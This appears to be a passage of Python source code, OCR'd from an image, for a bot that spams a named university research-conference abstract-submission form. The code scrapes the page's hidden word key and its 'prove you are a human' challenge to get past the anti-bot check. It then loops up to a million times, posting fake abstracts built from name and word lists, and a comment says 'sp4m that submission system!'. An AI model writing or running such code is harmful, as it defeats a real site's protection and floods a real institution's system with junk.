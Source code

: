 ```
    return resp.content


def grab_the_word_key(content):
    '''
    Returns the HTML containing the secret word

    content - The entire page HTML
    '''
    soup = BeautifulSoup(content)
    key = soup.find_all('input', attrs={'name': 'word_key'})
    return str(int(key[0]['value']))


def parse_the_page(content):
    '''
    Parses the HTML for the target area containing the key word
    '''
    soup = BeautifulSoup(content)
    labels = soup.find_all('label')
    for label in labels:
        if 'To prove you are a human type' in label.contents[0]:
            return get_the_secret(label.contents[0])


def main():
    '''
    The main function
    '''
    target = 'http://cpms.byu.edu/about/' \
        'spring-research-conference/abstract-submission/'
    content = grab_the_page(target)
    word_key = grab_the_word_key(content)
    word_value = parse_the_page(content)
    num_to_spam = 1000000
    degree_levels = ['Undergraduate', 'Masters', 'Doctorate']
    advisors_nums = ['169', '171', 'g_127', 'g_129', 'g_132']
    # sp4m that submission system!
    with open('Jargon') as dictionary, \
            open('Given-Names') as first_names, \
            open('Family-Names') as last_names:
        num = 0
        while num < num_to_spam:
            first_name = first_names.readline().strip()
            last_name = last_names.readline().strip()
            email = first_name+last_name+'@gmail.com'
            degree_level = degree_levels[randrange(0, len(degree_levels))]
            department = '2'  # this is the code for computer science
            faculty_advisor = advisors_nums[randrange(0, len(advisors_nums))]
            abstract_title = dictionary.readline().strip()
            abstract = first_name + ' ' + last_name + ' ' + email + \
                ' ' + degree_level + ' ' + department + ' ' + \
                faculty_advisor + ' ' + abstract_title
            abstract += ' '+abstract
            data = {'first_name': first_name,
                    'last_name': last_name,
                    'email': email,
                    'degree_level': degree_level,
                    'department': department,
                    'faculty_advisor': faculty_advisor,
                    'abstract_title': abstract_title,
                    'abstract': abstract,
                    'num': word_key,
```